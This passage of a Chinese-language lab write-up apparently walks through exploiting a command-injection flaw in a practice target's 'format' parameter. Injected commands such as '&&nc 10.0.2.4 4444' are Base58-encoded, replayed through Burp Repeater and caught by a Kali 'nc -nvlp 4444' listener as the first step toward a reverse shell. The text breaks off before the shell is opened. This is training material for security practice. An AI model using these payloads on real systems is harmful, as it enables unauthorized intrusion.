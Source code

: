 ```
&&ls /bin --To Base58-->VAZYW9RHPu6D（下面不再为转码贴附图片**-_-**）
```

BurpSuite:

```
--Repeater内将format参数值替换为VAZYW9RHPu6D-->Send重放
```

![image-20211103153619965](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211103153619965.png)

整理目前发现的**可利用信息**：

1.发现存在bash，之后若能获取shell，则可以执行bashell反弹

![image-20211104085536530](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211104085536530.png)

2.发现存在nc，但不确定nc版本是否有-e参数方便我们建立反弹shell （nc的-e参数具有程序重定向--连接执行的作用）

![image-20211103153858760](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211103153858760.png)

### 2.使用nc建立连接

#### 验证nc是否可执行

进行测试，确认nc命令能否正常执行？能否与kali建立反弹连接？

kali:

```
nc -nvlp 4444    #nc侦听4444端口
```

![image-20211103153939292](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211103153939292.png)

CyberChef:

```
&&nc 10.0.2.4 4444 --To Base58-->2an39LDoLgxbVq6NMgJeN3RL7
```

BurpSuite:

```
--Repeater内将format参数值替换为2an39LDoLgxbVq6NMgJeN3RL7-->Send重放
```

![image-20211104085113440](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211104085113440.png)

显示报错，但在kali端监听端发现**连接可以被正常建立**

![image-20211104085132470](https://gitee.com/byesec/picture/raw/master//target/Week3//image-20211104085132470.png)



#### 验证nc是否包含-e参数

##### 1.若有则使用-e参数加载反弹shell
